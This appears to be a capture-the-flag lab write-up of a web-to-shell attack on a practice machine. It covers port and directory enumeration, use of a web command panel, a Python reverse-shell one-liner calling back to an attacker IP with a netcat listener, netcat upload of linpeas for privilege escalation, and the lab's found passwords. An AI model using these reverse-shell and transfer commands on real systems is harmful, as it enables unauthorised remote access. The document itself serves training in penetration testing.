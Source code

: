 # Methodology

## Preparation
```bash
export IP="10.10.0.22"
```

## Port enumeration
```bash
mkdir -p nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```

## HTTP File enumeration
```bash
mkdir -p gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Web interaction

### Login
http://$IP/login.php
> Use username and password found

### Commands

**Use the command panel**
http://$IP/portal.php

**Gather information**
```bash
ls
```
> list directory files

```bash
grep -R .
```
> read file content

**Test executable commands**
``` bash
python3 -c "print('hello')"
```
> test executable commands availability

## Prepare exploit

### Using python
``` bash
# get local IP
ip a show tun0

# Remote exploit
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Local listener
nc -lvnp 9999

# Establish stable bash using python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Establish stable bash using STTY
ctrl-z

```

## Privilege escalation

### Using linpeas
```bash
# upload linpeas.sh using netcat

# remote
nc -lp 4444 > /dev/shm/lin.sh
# local
nc -w 3 $IP 4444 < linpeas.sh

# using Linpeas.sh to enumerate possible privilege escalation
bash /dev/shm/lin.sh
```

# Findings
R1ckRul3s
> View page source from http://$IP

Wubbalubbadubdub
> Web page content from http://$IP/robots.txt





# Tips

## Display all file contents

### Using grep
```bash
grep -R .

grep . clue.txt
```

### Using while
```bash
while read line; do echo $line; done < clue.txt
```




# New Tools

### Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```

### Revershell codes
> https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### John Hammond ready made tools
https://github.com/JohnHammond/poor-mans-pentest